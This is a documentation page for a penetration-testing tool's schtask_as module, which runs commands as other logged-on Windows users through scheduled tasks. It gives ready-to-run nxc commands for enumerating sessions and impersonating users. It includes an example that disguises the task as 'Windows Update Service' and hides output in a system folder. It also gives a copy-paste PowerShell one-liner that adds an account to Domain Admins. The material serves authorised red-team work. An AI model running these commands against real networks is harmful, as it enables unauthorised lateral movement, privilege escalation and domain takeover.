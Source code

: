 ```yaml
---
description: >-
  Use Sessions from logged-on Users to execute arbitrary commands using
  schtask_as
---
```


# Impersonate logged-on Users

{% hint style="warning" %}
You need at least local admin privilege on the remote target
{% endhint %}

The Module `schtask_as` can execute commands on behalf of other users which have sessions on the target, thanks to the contribution from [@Defte\_](https://twitter.com/Defte_).

### 1. Enumerate logged-on users on your Target

There are two ways you can enumerate logged on users on a Windows machine:

* --loggedon-user

```bash
nxc smb $TARGET -u $USER -p $PASSWORD --loggedon-users
```

* --qwinsta

```bash
nxc smb $TARGET -u $USER -p $PASSWORD --qwinsta
```

Note that these two options do not output the same result at all. Indeed --loggedon-users returns the list of logged users as well as to which DC they connected to.
The --qwinsta returns the windows interactive sessions that are running on the system. Having a loggedon users doesn't necessarly mean that you can impersonate it via schtask_as, indeed that module requires the user you are targetting to have a Windows interactive session. As such, if you really want to be sure you can impersonate someone with that module, run the --qwinsta option.

### 2. Execute commands on behalf of other users

```bash
nxc smb $TARGET -u $USER -p $PASSWORD -M schtask_as -o USER=<logged-on-user> CMD=<cmd-command>
```

<figure><img src="../.gitbook/assets/schtask_as.png" alt=""><figcaption></figcaption></figure>

### Module options:

```bash
CMD            Command to execute
USER           User to execute command as
BINARY         OPTIONAL: Upload the binary to be executed by CMD
TASK           OPTIONAL: Set a name for the scheduled task name
FILE           OPTIONAL: Set a name for the command output file
LOCATION       OPTIONAL: Set a location for the command output file (e.g. '\tmp\')
```

Example:

```bash
nxc smb $TARGET -u $USER -p $PASSWORD --local-auth -M schtask_as -o USER=[target] CMD="whoami" TASK="Windows Update Service" FILE="update.log" LOCATION="\\Windows\\Tasks\\"
```

Custom command to add a user to the domain admin group for easy copy\&pasting:

```powershell
powershell.exe \"Invoke-Command -ComputerName DC01 -ScriptBlock {Add-ADGroupMember -Identity 'Domain Admins' -Members USER.NAME}\"
```

Note that the BINARY option allows you specifying a local binary that will first be uploaded to the remote server, executed and cleared. This allows us not having to upload the binary and then run the module.
